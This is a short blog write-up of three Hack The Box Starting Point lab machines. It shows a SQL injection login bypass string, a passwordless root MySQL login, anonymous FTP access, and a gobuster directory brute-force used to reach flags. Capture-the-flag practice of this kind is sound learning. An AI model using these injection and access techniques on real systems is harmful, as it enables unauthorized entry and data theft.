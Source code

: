 ```yaml
---
layout: post
title: 'HTB | Tier 1'
permalink: /htb/starting-point/tier-1/
---
```


# Appointment
## Connection
We can search the IP in the navbar to get a website.
![login](../../../img/htb/starting-point/Screenshot_1.jpg)

We will try a basic sql-injection, login with the user:
{% highlight bash %}
' or '1'='1' #
{% endhighlight %}
For the password we just need to write a letter.

## Flag
The flag will be in front of us.

---

# Sequel
## Connection
We will use mysql to connect, with the **root** user.
{% highlight bash %}
> mysql -u root -h 10.129.220.35
{% endhighlight %}

## Flag
Now we are in, we just need to list all the databases and search for the flag.
{% highlight mysql %}
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
{% endhighlight %}

---

# Crocodile
## Connection
We will connect with ftp and the user **anonymous**. There we can download two files, with users and passwords.
{% highlight bash %}
> ftp 10.129.122.93
{% endhighlight %}
With **gobuster** we can check for others files in the webpage, and we can see a **login.php**:
{% highlight bash %}
>  gobuster dir -u http://10.129.122.93/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php
{% endhighlight %}

## Flag
We will have now this page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_2.jpg" weight="100%" />
With the **admin** login we can enter and get our flag.
